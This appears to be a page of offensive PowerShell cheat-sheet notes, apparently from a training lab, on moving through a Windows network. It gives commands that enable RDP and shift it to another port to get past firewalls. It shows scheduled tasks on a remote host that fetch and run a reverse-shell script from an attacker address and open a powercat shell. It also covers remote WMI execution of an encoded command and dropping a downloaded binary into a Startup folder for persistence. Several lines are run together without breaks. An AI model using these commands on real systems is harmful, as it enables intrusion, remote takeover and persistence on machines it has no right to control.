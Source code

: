 ## Remote Desktop

Enable RDP on a machine:

```powershell
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
```

Change RDP port to 55555 (in order to bypass firewalls):

```powershell
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp\" -Name PortNumber -Value 55555
New-NetFirewallRule -DisplayName "New RDP Port 55555" -Direction Inbound -LocalPort 55555 -Protocol TCP -Action allow
New-NetFirewallRule -DisplayName "New RDP Port 55555" -Direction Inbound -LocalPort 55555 -Protocol UDP -Action allow
net stop termservice /ynet start termservice /y
```

## Scheduled Tasks

Launch a scheduled task on a remote host to download and execute the script for a reverse shell:

```powershell
# File share via Web Server
schtasks /delete /S "COMPUTER01" /TN "JAVA_CHECK"schtasks /create /S "COMPUTER01" /SC Minute /RU "NT Authority\SYSTEM" /TN "JAVA_CHECK" /TR "powershell.exe -ep bypass -c 'iex (New-Object Net.WebClient).DownloadString(''http://192.168.50.53/powercat_connect.ps1''')'"schtasks /run /S "COMPUTER01" /TN "JAVA_CHECK"# File share via SMBNew-SmbShare -Path c:\users\student01\Desktop\shared -Name shared -FullAccess Everyoneschtasks /delete /S "COMPUTER01" /TN "JAVA_CHECK"# Only domain users can access the file share.# To run as SYSTEM the file must reside on the remote machine.schtasks /create /S "COMPUTER01" /SC Minute /RU "CYBERLAB\Administrator" /TN "JAVA_CHECK" /TR "powershell.exe -ep bypass -c '. \\192.168.50.53\shared\powercat.ps1; powercat -c 192.168.50.53 -p 443 -e cmd'"schtasks /run /S "COMPUTER01" /TN "JAVA_CHECK"
```

## WMI

*Requires ‘Host’ and ‘RPCSS’ SPNs*

```powershell
Invoke-WmiMethod win32_process -ComputerName "COMPUTER01.CYBERLAB.LOCAL" -name create -argumentlist "powershell.exe -e $encodedCommand"
```

## File download

Simple download:

```powershell
# Any version
(New-Object System.Net.WebClient).DownloadFile("http://192.168.119.155/PowerUp.ps1", "C:\Windows\Temp\PowerUp.ps1")

# Powershell 4+
## You can use 'IWR' as a shorthand
Invoke-WebRequest "http://10.10.16.7/Incnspc64.exe" -OutFile "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\Incnspc64.exe"
```
